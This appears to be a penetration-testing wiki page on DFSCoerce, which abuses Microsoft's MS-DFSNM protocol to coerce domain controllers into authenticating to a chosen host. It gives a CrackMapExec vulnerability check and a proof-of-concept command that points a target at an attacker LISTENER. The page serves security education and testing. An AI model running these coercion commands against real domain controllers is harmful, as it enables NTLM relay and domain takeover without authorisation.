 # MS-DFSNM abuse (DFSCoerce)

## Theory

MS-DFSNM is Microsoft's Distributed File System Namespace Management protocol. It provides an RPC interface for administering DFS configurations ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)) and is available as an RPC interface. That interface is available through the `\pipe\netdfs` SMB named pipe.

In mid-2022, [Filip Dragovic](https://twitter.com/filip\_dragovic) demonstrated the possibility of abusing the protocol to coerce authentications. Similarly to other MS-RPC abuses, this works by using a specific method relying on remote address. In this case (as of July 6th, 2022), the following methods were detected vulnerable: `NetrDfsRemoveStdRoot` and `NetrDfsAddStdRoot`. It is worth noting this coercion method only works against domain controllers.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to check if the target is vulnerable to DFSCoerce.

```bash
crackmapexec smb <TARGET> -u <USER> -p <PASSWORD> -M dfscoerce
```
{% endtab %}

{% tab title="Practice" %}
The following Python proof-of-concept ([https://github.com/Wh04m1001/DFSCoerce](https://github.com/Wh04m1001/DFSCoerce)) implements the `NetrDfsRemoveStdRoot` and `NetrDfsAddStdRoot` methods.

```bash
dfscoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979" %}

{% embed url="https://github.com/Wh04m1001/DFSCoerce" %}
